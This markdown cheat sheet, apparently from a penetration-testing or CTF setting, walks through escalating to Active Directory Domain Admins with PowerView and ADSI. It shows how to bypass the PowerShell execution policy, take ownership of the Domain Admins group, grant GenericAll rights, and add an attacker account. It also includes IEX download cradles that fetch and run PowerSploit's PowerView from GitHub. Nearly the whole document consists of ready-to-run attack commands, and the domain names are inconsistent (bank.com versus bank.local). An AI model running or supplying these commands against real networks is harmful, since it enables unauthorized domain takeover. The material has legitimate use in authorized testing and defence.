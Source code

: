 # Power view cheat sheet

## Commands

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

- Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
- Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

- Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
- Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission Why Needed

- Modify owner	
- Modify permissions	
- Write properties	

### 1. with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView
```
- Note: (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

- Verify if 'bb2' has WriteDACL on Domain Admins
```bash
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights
```
- Add GenericAll permission
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose
```
- Add your account to the group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose
```
- Verify
```bash
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```

### 2. with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### 3. with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
```
-or downloade the script and run by import
```bash
powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force
```
```bash
- 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

- 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

- 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```
